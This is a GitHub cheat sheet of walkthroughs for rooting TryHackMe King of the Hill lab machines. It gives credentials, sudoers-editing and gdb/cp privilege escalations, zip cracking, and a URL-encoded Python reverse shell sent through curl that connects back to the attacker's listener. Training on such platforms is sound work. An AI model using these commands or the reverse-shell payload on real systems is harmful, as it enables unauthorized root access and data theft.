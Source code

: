 # This is a work in progress, Many more machine cheatsheets will be updated very soon.
### Active Contributors : 
[Mr.Holmes](https://github.com/holmes-py) <br />
[Cryptonic007](https://github.com/mohitkhemchandani)
 
#### I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win. Target is to win while being inside the rules. This is not an exam, there are no wrong answers. As the saying goes, If it works, don't touch it.
This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.


# Machine name: FOOD
NMAP scan with `-p-` revealed that there is a telnet running on port 46969. <br /> 

So following are the steps to get root, ASAP. <br /> 

1. Connect on the port: <br /> 
    `telnet <IP> 46969` <br /> 
2. The Username and password are in caesor cipher. <br /> 
    Username: food <br /> 
    Password: givemecookies <br /> 
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers` <br /> 
    Press i <br /> 
    Add this line after the line with `root` is the start. <br /> 
    `food ALL=(ALL:ALL) ALL` <br /> 
    Press Ctrl+[ <br /> 
    Press :w! Enter <br /> 
    Press :q! Enter <br /> 
    `sudo su` <br /> 
    In prompt enter the password of food, i.e.  `givemecookies` <br /> 
   #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.
    


#  Machine name: SHREK

    
This is first and relatively easy machine, But beaware this things have too many entries to keep an eye on, Best Idea for defending this is by just killing the shells. Again I am not posting the methods that are 'technically' better, I am posting methods that will be easiest to do and will get you win.
Target is to win while being inside the rules. This is not an exam, there are no wrong answers.
As the saying goes, *If it works, don't touch it.*

1. Initial gobuster scan revealed that `robots.txt` file contains an abnormal entry, When we navigate to it, we find the entire RSA key.

![image](https://user-images.githubusercontent.com/54495695/81495768-495e6f80-92d0-11ea-8ab8-daab1abe3cf3.png)

2. Copy the key, paste it in a file, give the file necessary permissions.<br />
Assuming you made the RSA key file with the name `id_rsa`, follow these commands.<br />
`chmod 600 id_rsa`<br />
`ssh -i id_rsa shrek@<IP ADDRESS OF MACHINE>`<br />
This will give you a shell to shrek.<br />

3. After scanning the machine with linPEAS.sh, We found tha there is a gdb vulnerabilty in the box, using GTFObins, We use the following commands to do Privilage escalation.<br />
`gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`<br />
  #### YOU ARE ROOT. NOW DEFEND YOUR TITILE.<br />
    
#  Machine name: SPACE JAM

This machine is race to root kind of thing, There is a very low hanging fruit to get root, But it is a way use only entry, i.e. Whoever uses it first will try his best to destory this entry as it is too open. <br />

1. As always we do the basic nmap scan.<br />
![image](https://user-images.githubusercontent.com/54495695/81496158-2a151180-92d3-11ea-9d72-110073c4fbac.png)

2. We can see port 3000 is hosting Nodejs openly, So we try to get the reverse shell from it.<br />
    To do that, First start a listener on your machine using these commands:<br />
       `ncat -lvnp 4444` // I am using ncat, since I am on a Arch based system, You can use `nc` inplace of ncat.<br />
     Once the listener is ready, we deploy the payload.<br />
3. After testing many payloads we found the one of python to be working, For more payloads, follow this link.<br />
    The payload:<br />
           REPLACE <REMOTE_IP> with the IP of box.<br />
           REPLACE <LOCAL_IP> with the IP of your tryhackme VPN.<br />
   
        curl "<REMOTE_IP>:3000/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<LOCAL_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"

    On listener, you can see that we have a shell now.<br />
   
 4. After trying a lot of tests and linPEAS, I found that the easiest method to get king AND root shell is to exploit the `cp` vulnerability on the box. I am leaving the ideas to you for this one, but after making you king.<br />
 
    `LFILE=/root/king.txt`<br />
    `echo "<YOUR USERNAME>" | cp /dev/stdin "$LFILE"`<br />
#### YOU ARE KING. NOW DEFEND YOUR TITILE.<br />
Free Tip: (You know you can read anyfile with this vuln, use your imagination.)<br />
    `LFILE=file_to_read`<br />
    `cp "$LFILE" /dev/stdout`<br />

#  Machine name: FORTUNE

Now this is new machine, Released very recently, <br /> 
And made it hard for me to post direct commands, Why?<br /> 
Heres why, In this machine, there's a thing called autogen script, that regenrates everything at every reset. That means direct credentials doesn't work anymore. So you have to follow the instructions and do everything manually.<br /> 
Let's Hack:<br /> 


1. Initial nmap scans revealed that theres a netcat port open at 3333. <br /> 
    ![image](https://user-images.githubusercontent.com/54495695/81497074-b9252800-92d9-11ea-9e85-e727773fc41c.png)

2. When we connect to it, It gives out a weird base64 hash, After fiddling around, I found that it is base data of a zip file, so we use this [Site](https://base64.guru/converter/decode/file).<br /> 
    Copy the base64 hash to this site, and it will generate a file named application.zip.<br /> 
    
3. Now when we try to open the file, The file needs a password, Just crack this file using fcrackzip and wordlist rockyou.txt.<br /> 
    `fcrackzip -v -u -D -p ~/wordlists/rockyou.txt application.zip`<br /> 
   Once you have the password, unzip it.<br /> 
   `unzip application.zip`<br /> 
   You get a file named creds.txt, Inside it we have the login details of user named `fortuna`. Lets GO.<br /> 
4. Using the creds, <br /> 
    `ssh fortuna@<BOX IP>`<br /> 
5. Now that we have the shell, We can work on Privilage escalation.<br /> 
    After linpeas and basic test, I found that:<br /> 
        5.1 We as fortuna are in sudoers list.<br /> 
        5.2 And we also have `pico` in the `sudo -l` list.<br /> 
        
6. We can simply edit the `/etc/sudoers/` file to give us ALL permissions to run sudo.<br /> 
7. Using this command:<br /> 
    `sudo pico /etc/sudoers`<br /> 
   Replace `pico` in sudoers file with `ALL`.<br /> 
8. Now you can just do, `sudo su` and you are root.<br /> 

#### You are ROOT, now defend your title.
   
   
